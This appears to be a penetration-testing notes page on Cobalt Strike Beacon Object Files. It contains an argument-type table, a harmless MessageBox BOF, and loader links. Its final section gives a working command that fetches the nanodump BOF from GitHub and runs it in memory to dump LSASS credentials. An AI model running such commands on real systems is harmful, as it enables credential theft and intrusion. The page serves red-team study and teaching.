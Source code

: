 ```yaml
---
description: Beacon Object Files / Common Object File Format
---
```


# BOF / COFF

Argument types for [bof_pack](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#bof_pack):

| **Type** | **Description**                  | **Unpack With (C)**          |
|----------|----------------------------------|------------------------------|
| b        | binary data                      | BeaconDataExtract            |
| i        | 4-byte integer                   | BeaconDataInt                |
| s        | 2-byte short integer             | BeaconDataShort              |
| z        | zero-terminated+encoded string   | BeaconDataExtract            |
| Z        | zero-terminated wide-char string | (wchar_t \*)BeaconDataExtract |

A basic BOF example:

{% tabs %}
{% tab title="BOF" %}
{% code title="msgbox.c" %}
```c
// wget https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/beacon.h
// x86_64-w64-mingw32-gcc -c msgbox.c -o msgbox.o

#include <windows.h>
#include "beacon.h"

void go(char* args, int len)
{
    DECLSPEC_IMPORT INT WINAPI USER32$MessageBoxA(HWND, LPCSTR, LPCSTR, UINT);

    datap parser;
    BeaconDataParse(&parser, args, len);

    char* message;
    message = BeaconDataExtract(&parser, NULL);

    USER32$MessageBoxA(NULL, message, "Hello from BOF!", 0);
}
```
{% endcode %}
{% endtab %}
{% tab title="Aggressor" %}
{% code title="msgbox.cna" %}
```
alias msgbox {
    local('$handle $bof $args');
    
    # Read the bof file
    $handle = openf(script_resource("msgbox.o"));
    $bof = readb($handle, -1);
    closef($handle);

    # Pack args
    $args = bof_pack($1, "z", $2);
    
    # Print task to console
    btask($1, "Running MessageBoxA BOF");
    
    # Execute BOF
    beacon_inline_execute($1, $bof, "go", $args);
}

beacon_command_register("msgbox", "Pops a message box", "Calls the MessageBoxA Win32 API");
```
{% endcode %}
{% endtab %}
{% endtabs %}




## Run BOFs outside of CS

- [https://www.trustedsec.com/blog/coffloader-building-your-own-in-memory-loader-or-how-to-run-bofs/](https://www.trustedsec.com/blog/coffloader-building-your-own-in-memory-loader-or-how-to-run-bofs/)
- [https://github.com/trustedsec/COFFLoader](https://github.com/trustedsec/COFFLoader)
- [https://skyblue.team/posts/invoke-bof/](https://skyblue.team/posts/invoke-bof/)
- [https://github.com/airbus-cert/Invoke-Bof](https://github.com/airbus-cert/Invoke-Bof)



### RunOF

- [https://labs.nettitude.com/blog/introducing-runof-arbitrary-bof-tool/](https://labs.nettitude.com/blog/introducing-runof-arbitrary-bof-tool/)
- [https://github.com/nettitude/RunOF](https://github.com/nettitude/RunOF)

An example of running the [nanodump.x64.o](https://github.com/helpsystems/nanodump/blob/main/dist/nanodump.x64.o) BOF via RunOF [fork](https://github.com/snovvcrash/RunOF) from memory:

- Compile RunOF.exe assembly and convert it to a PowerShell invoker (see [.NET Reflective Assembly](/pentest/infrastructure/ad/av-edr-evasion/dotnet-reflective-assembly.md))
- Search for argument types that the target BOF uses (usually located in accompanying Aggressor scripts):

```
curl -sSL 'https://github.com/helpsystems/nanodump/raw/main/'`curl -sSL 'https://api.github.com/repos/helpsystems/nanodump/git/trees/main?recursive=1' | jq -r '.tree[] | select(.path | endswith(".cna")) | .path'` | grep bof_pack
    $args = bof_pack($1, "iziiiiiiiziiz", $pid, $dump_path, $write_file, $use_valid_sig, $fork, $snapshot, $dup, $get_pid, $use_malseclogon, $binary_path, $use_malseclogon_race, $use_werfault, $werfault_lsass);
    $args = bof_pack($1, "ziiiiizb", $dump_path, $use_valid_sig, $fork, $snapshot, $dup, $use_malseclogon, $binary_path, $dll);
    $args = bof_pack($1, "z", $ssp_path);
    $args = bof_pack($1, "z", $2);
```

- Load the invoker into memory, fetch the BOF (`-u` option) and run it providing necessary arguments with their types like this:

```
PS > Invoke-RunOF -u https://github.com/helpsystems/nanodump/raw/main/dist/nanodump.x64.o '-i:0' '-z:C:\Windows\Temp\lsass.bin' '-i:1' '-i:1' '-i:0' '-i:0' '-i:0' '-i:0' '-i:0' '-z:' '-i:0' '-z:'
```
